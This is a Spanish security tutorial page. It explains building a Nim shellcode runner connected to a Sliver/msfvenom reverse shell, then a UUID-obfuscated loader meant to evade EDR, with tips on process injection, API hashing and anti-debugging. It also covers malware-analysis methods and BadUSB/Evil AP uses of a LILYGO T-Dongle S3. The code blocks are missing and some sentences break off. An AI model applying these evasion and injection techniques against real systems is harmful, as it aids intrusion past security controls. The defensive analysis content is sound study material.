








Análisis de Malware
El desarrollo de malware y el análisis de amenazas son dos caras de la misma moneda. Para un analista de seguridad (Blue Team) o un investigador de malware, comprender cómo los atacantes escriben, estructuran y ofuscan código malicioso es fundamental para diseñar reglas de detección eficaces, entender las capacidades de los Endpoints modernos y realizar una ingeniería inversa precisa.
Exploraremos la creación de un Shellcode Runner utilizando el lenguaje de programación Nim y la librería winim para interactuar directamente con la API de Windows (win32 API).

Las metodologías que se abordan se dividen en dos fases principales:
Fase 1: El Shellcode Runner Básico (Enfoque Tradicional)
El objetivo es ejecutar código de máquina arbitrario (Shellcode) en la memoria de un proceso legítimo en Windows utilizando funciones nativas del sistema operativo:
- ⌾
Asignación de Memoria ( El programa solicita al sistema operativo un bloque de memoria virtual para alojar el payload. En el primer código, se asigna con permisos de lectura, escritura y ejecución (VirtualAlloc ):PAGE_EXECUTE_READWRITE - RWX), lo cual facilita la ejecución pero genera una alerta roja inmediata en cualquier solución de seguridad moderna. - ⌾
Copiado de Memoria ( Una vez reservado el espacio, se copia el shellcode (generado previamente con herramientas comocopymem ):sliver ) directamente en la dirección de memoria asignada. - ⌾
Ejecución por Hilos ( Se crea un nuevo hilo de ejecución apuntando a la dirección de memoria donde reside el shellcode. El hilo se ejecuta inmediatamente de manera independiente, detonando la carga maliciosa, mientras el programa principal espera a que finalice (CreateThread / WaitForSingleObject ):WaitForSingleObject ) antes de cerrar el manipulador (handle).
Ejemplo:
Podemos explorar la fase práctica del desarrollo de malware y la validación de controles defensivos en entornos corporativos simulados. A través de un caso de estudio enfocado en un Shellcode Runner desarrollado en Nim, demostramos cómo configurar un entorno de comando y control (C2) utilizando Sliver en una máquina atacante con Kali Linux, mientras un host víctima procesa la carga compilada. El objetivo de este ejercicio es analizar la respuesta de los sistemas ante conexiones inversas (reverse shells), identificando brechas de visibilidad y comprendiendo por qué las metodologías básicas requieren capas avanzadas de ofuscación para superar las soluciones de seguridad modernas.
¿Cómo interactúa un binario malicioso con las defensas de un host cuando se ejecuta por primera vez? En esta entrega te llevamos paso a paso por la configuración de un listener en Kali Linux y la ejecución de un implante compilado a medida. Analizaremos cómo se establece la comunicación inversa (reverse TCP/mTLS) entre la víctima y el atacante, permitiendo a los equipos de seguridad y analistas entender el flujo de red, los patrones de conexión y la efectividad de las herramientas de monitoreo frente a técnicas ofensivas fundamentales.
❏ Codigo en formato .nim para desarrollar el ejecutable malicioso:
En esta fase de la práctica se llevará a cabo la ejecución real del ataque mediante el despliegue de un listener centralizado en la máquina atacante con Kali Linux —empleando herramientas de Comando y Control como Sliver o utilidades de carga como msfvenom— para recibir y gestionar la conexión inversa. Posteriormente, el archivo malicioso compilado es transferido y ejecutado en el host víctima con Windows, permitiendo materializar la comunicación bidireccional y estableciendo el control remoto sobre el dispositivo, lo que valida la efectividad del vector de acceso y la respuesta operativa ante la intrusión.
El shellcode debe ser generado a partir de la IP del atacante, por lo que se debe modificar el código para incluir la dirección IP y el puerto del atacante. Esto debe ser incluido con msfvenom al generar el payload.
ryuzak1@ubuntu: ~
Convierte una cadena hexadecimal continua (DEADBEEF) en una lista de bytes con prefijo 0x separados por comas (0xDE, 0xAD, 0xBE, 0xEF), un formato muy común para representar arrays de bytes en C, Python, Rust, etc.
- ◉
length($0) = 8 (longitud de DEADBEEF). - ◉
El bucle for avanza de 2 en 2: i = 1, 3, 5, 7. - ◉
En cada iteración: substr($0, i, 2) toma 2 caracteres: DE, AD, BE, EF.(i>1?", ":"") añade ", " como separador antes de cada byte excepto el primero.printf "%s0x%s" antepone 0x a cada par (formato hexadecimal típico de C/Python).print "" Al final imprime un salto de línea.
⌭ El primer %s con (i>1?", ":"") añade ", " como separador antes de cada byte excepto el primero.
⌭ El segundo %s toma el par de caracteres actual: DE, AD, BE, EF.
Para que el laboratorio funcione correctamente, es indispensable que ambas máquinas tengan visibilidad a través de la red. Esto se puede lograr de forma sencilla configurando los dispositivos en la misma red interna o mediante un adaptador en modo puente (Bridged) dentro de un entorno virtualizado (como VirtualBox o VMware). Si el ejercicio se realiza de forma remota, será necesario configurar la apertura y redirección de puertos (port forwarding) en el módem o router para permitir que la conexión inversa alcance la máquina del atacante desde el exterior.
También se puede generar un payload con msfvenom, sin necesidad de desarrollar el código desde cero, para poder conectarlo con el listener. Pero es fácil de detectar.

Fase 2: Introducción a la Ofuscación y Evasión (UUID Formatter / Hell Shell)
Para evitar la detección estática basada en firmas (ya que un shellcode plano es fácilmente detectable por antivirus), se introduce una capa de ofuscación:
- ⌾
Codificación basada en Estructuras de Datos (UUIDs): En lugar de incrustar el shellcode como un arreglo plano de bytes, herramientas de ofuscación como Hell Shell transforman los bytes en una serie de Identificadores Únicos Universales (UUIDs). - ⌾
Técnica de Reconstrucción en Heap: El programa en Nim asigna espacio en el Heap (montículo), lee y descodifica los UUIDs de vuelta a su formato binario original, y luego procede a su ejecución, dificultando el análisis estático y la inspección automatizada por parte de soluciones de seguridad periféricas.
El repositorio OffensiveNim recopila ejemplos, técnicas y plantillas sobre cómo utilizar el lenguaje de programación Nim para el desarrollo de herramientas ofensivas (como las que se han estado probando con winim, cargadores y manejo de memoria).
El siguiente código en Nim, es una implementación de una técnica avanzada de inyección y ejecución de código (shellcode) basada en el formato UUID (Identificador Único Universal). Esta técnica fue documentada originalmente en ataques analizados "en libertad" (in the wild) utilizados por el grupo APT conocido como Lazarus loader.
En lugar de almacenar el shellcode en un arreglo tradicional de bytes en crudo (lo cual es fácilmente detectable por firmas estáticas en antivirus o EDRs), el código almacena la carga útil disfrazada como una lista de cadenas de texto con formato de UUID estándar (por ejemplo: e48348fc-e8f0-00c0-0000-415141505251).
El programa utiliza la función de la API de Windows
Para desofuscar el Shellcode usando la API de Windows, el programa recorre la matriz de cadenas UUID y utiliza la función nativa de Windows
En cuanto a la ejecución indirecta sin crear hilos (Threads), y en lugar de usar las funciones comunes y altamente vigiladas como
❏ Este código es un loader evasivo diseñado para bypass (evadir) defensas en entornos corporativos.
Para adaptar este cargador basado en UUIDs a tu propio shellcode, debes modificar dos cosas principales en el código:
- ◦
Reemplazar la constante SIZE: Esta constante debe reflejar el número total de UUIDs que componen tu shellcode. Cada UUID representa 16 bytes, por lo que si tu shellcode tiene un tamaño de 256 bytes, SIZE debería ser 16. - ◦
Actualizar el arreglo UUIDARR: Reemplaza las cadenas de texto con los UUIDs correspondientes a tu shellcode.
❏ La forma más eficiente y limpia de procesar un payload que tienes en formato hexadecimal 0x... (como el que exportan herramientas como msfvenom o Cobalt Strike) es usar un pequeño script de Python. Este script tomará la estructura interna que Windows maneja para un GUID. En los primeros bloques (Data1, Data2 y Data3) como enteros little-endian y el bloque (Data4) de forma secuencial (Big-Endian):
Es una forma de diseño usada por entusiastas de la ciberseguridad, que consiste en transformar código malicioso (shellcode) en arreglos de datos ofuscados para evadir la detección de soluciones EDR y Antivirus.

Metodologías y Técnicas (Desde una perspectiva de Malware Real / Avanzado)
Aunque el ejemplo es excelente para fines educativos y para entender los fundamentos (baby steps), desde el punto de vista del desarrollo de malware avanzado o de las técnicas que los analistas enfrentan en incidentes del mundo real, faltan capas críticas de sigilo y robustez:
Uso de Permisos RWX (Read-Write-Execute): - ✖
El problema: Asignar memoria con permisos RWX (PAGE_EXECUTE_READWRITE ) es una de las prácticas más ruidosas en seguridad. Los motores de EDR (Endpoint Detection and Response) y las políticas de mitigación de Windows (como W^X - Write XOR Execute) vigilan de cerca estas regiones porque ningún programa legítimo necesita escribir código y ejecutarlo en la misma zona de memoria de forma estática. Inyección de Procesos / Process Injection (en lugar de auto-inyección): - ✖
El problema: El código del ejemplo ejecuta el shellcode dentro de su propio proceso. Los EDR modernos monitorizan las anomalías de hilos creados dentro del mismo binario. Las técnicas avanzadas prefieren la inyección en procesos remotos legítimos (comoexplorer.exe osvchost.exe ) utilizando APIs comoVirtualAllocEx ,WriteProcessMemory yCreateRemoteThread (o alternativas más sigilosas como Early Bird APC Injection). Resolución Dinámica de APIs (API Hashing / Dynamic Loading): - ✖
El problema: Importar directamente funciones comoVirtualAlloc oCreateThread deja rastros en la tabla de importaciones (IAT - Import Address Table) del ejecutable. Un analista forense o un escáner estático puede ver exactamente qué APIs maliciosas piensa usar el binario con solo abrirlo en un desensamblador (como Ghidra o IDA Pro). Faltaría implementar técnicas como API Hashing o carga dinámica medianteLoadLibrary yGetProcAddress . Técnicas Anti-Análisis y Anti-Depuración: - ✖
El problema: El código se ejecuta inmediatamente sin verificar si está corriendo en un entorno aislado (Sandbox), una máquina virtual de análisis o bajo la atenta mirada de un depurador (IsDebuggerPresent , comprobación de tics de reloj, análisis de procesos en ejecución o demoras temporales de ejecución).
❏ Programa mejorado:
El parámetro

Metodologías del Análisis de Malware
Análisis estático
El análisis estático estudia un archivo sin ejecutarlo. Permite obtener información sobre su estructura, sus cadenas de texto, sus dependencias y posibles funciones sospechosas.
Entre las actividades más importantes se encuentran:
𖥂 Calcular los hashes SHA-256 para identificar y comparar muestras.𖥂 Examinar las cadenas de texto y las rutas que aparecen dentro del archivo.𖥂 Analizar las cabeceras y secciones de ejecutables PE en Windows.𖥂 Inspeccionar las funciones importadas, los recursos y las bibliotecas utilizadas.𖥂 Identificar indicios de empaquetado, cifrado u ofuscación.𖥂 Aplicar reglas YARA para buscar patrones conocidos.
Herramientas como Ghidra, Detect It Easy, PE-bear y YARA pueden ayudar en distintas etapas de este proceso.
La principal ventaja es que permite realizar una primera evaluación sin ejecutar el programa. Su limitación es que ciertos comportamientos solo se manifiestan durante la ejecución, especialmente cuando el programa descifra contenido en memoria o resuelve funciones dinámicamente.
Análisis dinámico
El análisis dinámico consiste en observar el comportamiento de una muestra durante su ejecución en un entorno controlado.
Se recomienda registrar:
𖥂 Procesos creados y relaciones entre procesos.𖥂 Archivos creados, modificados o eliminados.𖥂 Cambios en el registro de Windows.𖥂 Modificaciones de servicios y mecanismos de inicio automático.𖥂 Conexiones de red, consultas DNS y destinos contactados.𖥂 Actividad sospechosa en memoria.𖥂 Errores, tiempos de espera y condiciones que impiden la ejecución.
Herramientas como Process Monitor, Process Explorer, Wireshark y sistemas de sandbox pueden aportar evidencias complementarias.
Análisis de red
El análisis de red permite estudiar las comunicaciones generadas por una muestra.
Conviene revisar:
𖥂 Direcciones IP y dominios contactados.𖥂 Consultas DNS y protocolos utilizados.𖥂 Frecuencia y duración de las conexiones.𖥂 Solicitudes HTTP y otros metadatos de tráfico disponibles.𖥂 Posibles comunicaciones de mando y control.𖥂 Indicadores que permitan relacionar distintas muestras.
Wireshark y herramientas de captura de tráfico pueden ayudar a registrar estas evidencias.
Es importante distinguir entre una conexión observada y una conexión confirmada como maliciosa. Una dirección IP o un dominio aislado no demuestra por sí solo que un archivo sea malware.
Ingeniería inversa
La ingeniería inversa permite comprender la lógica interna de un programa mediante la descompilación, el desensamblado y la depuración.
Herramientas como Ghidra, IDA y x64dbg pueden ayudar a:
𖥂 Identificar las funciones principales del programa.𖥂 Reconstruir el flujo de ejecución.𖥂 Analizar las llamadas a funciones del sistema.𖥂 Localizar rutinas de descifrado y desempaquetado.𖥂 Comprender la lógica de persistencia y comunicación.𖥂 Determinar qué condiciones activan determinados comportamientos.
Esta metodología es especialmente útil cuando el análisis estático básico no proporciona suficiente información.
Análisis de memoria
El análisis de memoria puede revelar información que no resulta evidente en el archivo original, como contenido descifrado, módulos cargados, procesos sospechosos o código que solo existe durante la ejecución.
Puede ser especialmente útil cuando se sospecha de malware empaquetado, inyección de código o ejecución sin archivos persistentes.
Correlación con inteligencia de amenazas
Los resultados deben contrastarse con información de referencia y técnicas documentadas de los atacantes.
MITRE ATT&CK permite organizar comportamientos observados según tácticas y técnicas conocidas. Las reglas YARA, los hashes y otros indicadores pueden ayudar a detectar muestras relacionadas.
La atribución a una familia de malware o a un grupo de amenazas requiere evidencias suficientes: una coincidencia parcial no es una atribución concluyente.

LILYGO T-Dongle S3
El LILYGO T-Dongle S3 es una pequeña placa de desarrollo con formato de memoria USB, basada en el microcontrolador ESP32-S3, que cuenta con pantalla LCD a color, botón, ranura para tarjeta microSD y conectividad Wi-Fi/Bluetooth. Cuando se le instala el firmware USB Army Knife, se transforma en una herramienta muy potente para pruebas de penetración (Red Team).
- ⌬
Ataques HID (Inyección de teclas) - ⌬
Auditoría y ataques Wi-Fi/Bluetooth Gracias a su integración con ESP32 Marauder, el dispositivo puede escanear, capturar y analizar tráfico inalámbrico. Esto incluye realizar ataques de deautenticación, capturar handshakes WPA o realizar auditorías de dispositivos Bluetooth.
- ⌬
Punto de Acceso Falso (Evil AP) Puede crear redes Wi-Fi fraudulentas (rogue access points) que imitan redes legítimas para interceptar tráfico de red o intentar capturar credenciales de usuarios desprevenidos
- ⌬
Emulación de dispositivos USB Almacenamiento encubierto: Puede hacerse pasar por una unidad USB normal mientras oculta datos sensibles en la tarjeta microSD.NIC/CD-ROM malicioso: Puede impersonar un adaptador de red USB o una unidad de CD-ROM que obliga al sistema operativo a instalar controladores desde una fuente comprometida
- ⌬
Herramientas de acceso remoto y vigilancia Servidor VNC integrado: Permite ver y controlar la pantalla del dispositivo (o del equipo objetivo, según la configuración) a través de una interfaz web remota.Captura de tráfico (PCAP): Funciona como un adaptador de red USB para capturar y analizar el tráfico inicial de la red a la que se conecta.
- ⌬
Funciones de sigilo y seguridad Pantalla de señuelo: La pantalla LCD integrada puede mostrar animaciones, barras de progreso falsas o mensajes inofensivos para pasar desapercibido mientras realiza tareas en segundo plano.Autodestrucción: Algunas configuraciones permiten borrar o restablecer el dispositivo automáticamente si se detecta movimiento cercano o como medida de seguridad ante una inspección no deseada.Control remoto: Puede gestionarse a través de Wi-Fi o incluso conectarse a un teléfono inteligente mediante un adaptador OTG para mayor portabilidad.
Puede emular un teclado y un ratón (Human Interface Device) para ejecutar scripts tipo Rubber Ducky (DuckyScript). Al conectarlo a un ordenador, ejecuta automáticamente pulsaciones de teclas preprogramadas para abrir terminales, descargar archivos o ejecutar comandos en segundos.
Es posible cargar y ejecutar scripts de tipo DuckyScript utilizando el LilyGO T-Dongle S3 (especialmente con firmwares orientados a funciones ofensivas tipo USB Army Knife o BadUSB basados en ESP32-S3), ya que el chip ESP32-S3 cuenta con capacidades nativas de USB On-The-Go (OTG) / emulación de teclado HID.
¿Cómo se cargan los scripts?
Dependiendo de la variante exacta del firmware que estés utilizando:
✺ A través de tarjeta MicroSD: El T-Dongle S3 cuenta con una ranura para tarjeta TF/MicroSD integrada. Muchos firmwares buscan archivos de texto plano (por ejemplo, payload.txt o scripts individuales) directamente en la raíz de la tarjeta SD al iniciar o mediante selección en interfaz web.✺ A través de Interfaz Web (AP Mode): Si el firmware levanta un punto de acceso Wi-Fi propio (Access Point), puedes conectarte desde tu celular o laptop a su dirección IP, acceder al panel de administración y pegar o subir el archivo DuckyScript directamente en la caja de texto habilitada para tal fin.
¿Cómo se interpretan para que el dispositivo los ejecute?
El T-Dongle S3 no entiende el DuckyScript de manera nativa tal cual sale de la caja; necesita un intérprete interno (normalmente escrito en C++ o MicroPython dentro del firmware) que hace el trabajo de traducción en tiempo de ejecución.
El proceso lógico que realiza el firmware es el siguiente:
Lectura línea por línea: El intérprete lee el archivo de texto del DuckyScript secuencialmente (instrucción por instrucción).Análisis de sintaxis (Parsing): Cada línea del script se analiza para identificar comandos, retrasos y secuencias de teclas(REM ,DELAY ,STRING ,GUI ,ENTER , etc.).Traducción a eventos HID: Hace una conversión de cada comando en pulsaciones de teclas virtuales mediante la librería USB HID del ESP32-S3 (por ejemplo, si lee STRING Hola, el microcontrolador envía los códigos de scan individual de cada letra H-o-l-a a través del puerto USB a una velocidad imperceptible para el humano).Emulación de teclado: El sistema operativo anfitrión en donde está conectado el dongle reconoce el dispositivo automáticamente como un teclado USB legítimo y comienza a recibir las pulsaciones simuladas de manera idéntica a como si alguien estuviera escribiendo físicamente en un teclado.
Ejemplo rápido de comandos soportados habitualmente:
Ejemplo:
Existen principalmente dos formas de hacerlo en este dispositivo, dependiendo de cómo prefieras trabajar:
A través de la Interfaz Web (Vía Wi-Fi)
El firmware USB Army Knife destaca por permitir el control remoto, lo que facilita mucho la carga de payloads.
- ㋡
Enciende el dispositivo: Conéctalo a una fuente de energía (un puerto USB de pared o un powerbank). - ㋡
Conéctate a su Wi-Fi: El dongle creará un Punto de Acceso (AP) o se conectará a tu red local. Conecta tu teléfono u ordenador a esa red Wi-Fi. - ㋡
Accede a la interfaz web: Entra en la dirección IP de la interfaz web (por defecto suele ser 192.168.4.1 o la que hayas configurado en el firmware). - ㋡
Ve al menú de HID / Payloads: En la sección de "DuckyScript", "HID Injection" o "Payloads", pega tu DuckyScript o sube el archivo correspondiente. - ㋡
Carga el script: Puedes subir el archivo .ds directamente desde tu teléfono u ordenador. O puedes copiar y pegar el código del script en el editor de texto integrado en la web. - ㋡
Ejecutar: Pulsa el botón de "Run" o "Execute". El T-Dongle S3 comenzará a inyectar las pulsaciones en el PC al que esté conectado por USB en ese momento.
A través de la tarjeta MicroSD (Modo Offline / Encubierto)
El T-Dongle S3 cuenta con una ranura para tarjeta microSD (a menudo usada para almacenamiento encubierto o para guardar payloads).
- ㋡
Prepara la SD: Formatea una tarjeta microSD en FAT32. - ㋡
Crea la carpeta: Crea una carpeta en la raíz llamada payloads, scripts o ducky (el nombre exacto depende de la versión del firmware de i-am-shodan, revísalo en su documentación). - ㋡
Copia los archivos: Pega tus archivos .ds dentro de esa carpeta. - ㋡
